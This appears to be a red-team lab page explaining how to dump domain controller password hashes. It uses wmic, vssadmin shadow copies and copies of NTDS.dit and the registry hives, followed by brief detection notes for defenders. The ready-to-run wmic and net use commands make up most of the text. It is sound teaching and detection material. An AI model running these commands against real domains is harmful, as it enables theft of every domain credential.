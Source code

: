 # Dumping Domain Controller Hashes via wmic and Shadow Copy

This quick labs hows how to dump all user hashes from the DC by creating a shadow copy of the C drive using vssadmin - remotely.

This lab assumes the attacker has already gained administratrative access to the domain controller.

## Execution

Create a shadow copy of the C drive of the Domain Controller:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-23-213609.png)

Copy the NTDS.dit, SYSTEM and SECURITY hives to C:\temp on the DC01:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
{% endtab %}
{% endtabs %}

Below shows the above command executed on the attacking machine \(right\) and the files being dumped to c:\temp on the DC01 on the left:

![](../../.gitbook/assets/dc-dump%20%281%29.gif)

Mount the DC01\c$\temp locally in order to retrieve the dumped files:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/annotation-2019-05-23-222654.png)

Now, of you go extracting hashes with secretsdump as shown here:

{% page-ref page="ntds.dit-enumeration.md" %}

## Observations

A quick note for defenders on the proces ancestry:

![](../../.gitbook/assets/annotation-2019-05-23-213352.png)

and of course commandlines:

![](../../.gitbook/assets/annotation-2019-05-23-223432.png)

as well as service states:

![](../../.gitbook/assets/annotation-2019-05-23-223157.png)

...and of course the lateral movement piece:

![](../../.gitbook/assets/annotation-2019-05-23-230027.png)

## References

[https://twitter.com/netmux/status/1123936748000690178?s=12](https://twitter.com/netmux/status/1123936748000690178?s=12)


